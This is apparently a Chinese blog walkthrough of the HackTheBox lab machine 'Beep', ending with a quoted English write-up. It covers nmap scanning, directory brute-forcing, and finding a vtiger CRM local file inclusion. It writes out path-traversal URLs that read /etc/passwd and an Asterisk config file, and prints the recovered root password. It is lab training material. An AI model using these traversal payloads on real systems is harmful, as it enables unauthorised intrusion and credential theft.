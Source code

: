 ```yaml
---
title: Beep
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_4.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# Beep

- **Beep是hackthebox的一台简单的靶机**

- 首先使用nmap查看端口的开放情况和漏洞

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 10.10.10.7                                              130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-13 05:10 EDT
Nmap scan report for 10.10.10.7
Host is up (0.27s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES TOP UIDL STLS USER APOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE EXPIRE(NEVER) PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            877/udp   status
|_  100024  1            880/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: SORT=MODSEQ UNSELECT STARTTLS X-NETSCAPE THREAD=ORDEREDSUBJECT IMAP4rev1 ANNOTATEMORE LIST-SUBSCRIBED THREAD=REFERENCES NO RENAME UIDPLUS ACL OK RIGHTS=kxte LISTEXT IDLE SORT MAILBOX-REFERRALS Completed IMAP4 BINARY CONDSTORE CATENATE ATOMIC ID MULTIAPPEND QUOTA CHILDREN LITERAL+ URLAUTHA0001 NAMESPACE
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-10-13T09:13:57+00:00; +1s from scanner time.
880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
.
```

- 浏览器打开https://10.10.10.7

![image-20211013195748932](http://cdn.mxrblog.cn/image-20211013195748932.png)

- dirsearch扫描靶机的80端口,http://10.10.10.7，尝试了一遍，没有什么有价值的东西

![image-20211013195614708](http://cdn.mxrblog.cn/image-20211013195614708.png)

- gobuster扫描一下443端口下的：https://10.10.10.7

![image-20211013195926332](http://cdn.mxrblog.cn/image-20211013195926332.png)

- 分别用浏览器查看这几个目录
- /admin

![image-20211013200433818](http://cdn.mxrblog.cn/image-20211013200433818.png)

- /configs

![image-20211013200524407](http://cdn.mxrblog.cn/image-20211013200524407.png)

- /vtigercrm

![image-20211013200621752](http://cdn.mxrblog.cn/image-20211013200621752.png)

- 当浏览到/vtigercrm目录时，我发现页面右下角显示了一个版本序列号



![image-20211013200728994](http://cdn.mxrblog.cn/image-20211013200728994.png)

- 使用searchsploit vtiger CRM 5.1.0 查看是否存在漏洞

![image-20211013200841109](http://cdn.mxrblog.cn/image-20211013200841109.png)

- 查看漏洞文件都说了些什么
- 提示说有LFI （文件包含漏洞）

![image-20211013201003369](http://cdn.mxrblog.cn/image-20211013201003369.png)

- 在浏览器中打开上面说的地址

```
https://1/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

### 解法一

- 由于上面的过程最后会有不同的解法，再次给出多种答案：
- 打开10.10.10.7页面（之前打开过），会发现一个名为elastix的引擎软件，使用searchsploit查看是否有漏洞
- ![image-20211014000459211](http://cdn.mxrblog.cn/image-20211014000459211.png)

- 使用上面显示的LFI漏洞

![image-20211014001221868](http://cdn.mxrblog.cn/image-20211014001221868.png)

- 使用浏览器查看

![image-20211014001919589](http://cdn.mxrblog.cn/image-20211014001919589.png)

- 发现用户名与密码

```
admin
jEhdIekWmdjE
```

- 使用ssh尝试连接

![image-20211014002859642](http://cdn.mxrblog.cn/image-20211014002859642.png)

- 登不上，百度后找到了解决的办法

![image-20211014003304538](http://cdn.mxrblog.cn/image-20211014003304538.png)

- 开始尝试登录
- 第一次使用用户名为admin登录发现无法登录用户名不匹配
- 第二次将用户名改为root用户，然后成功
- 总结：多尝试，多百度，胆要肥

![image-20211014003809769](http://cdn.mxrblog.cn/image-20211014003809769.png)

- 获得root.txt和user.txt

![image-20211014004036947](http://cdn.mxrblog.cn/image-20211014004036947.png)



### 解法二

- **[参考链接](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-beep/)**

- 第一种解法有点意外，毕竟这个密码我们是得到了，但是却无法猜到是root用户的密码，这样我们就拿不到flag

I also do some research on **default credentials** for vTiger and find some documentation around installing **vTiger Asterisk Connector**

![img](https://www.freecodecamp.org/news/content/images/2019/09/Screenshot-2019-09-01-at-20.44.49.png)https://www.vtiger.com/docs/asterisk-integration

If we modify the previous URL to

```url
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00
```

I navigate to this page (using source code to prettify the output)

![img](https://www.freecodecamp.org/news/content/images/2019/09/Screenshot-2019-09-03-at-00.55.05.png)https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00

I find a password **jEhdIekWmdjE**
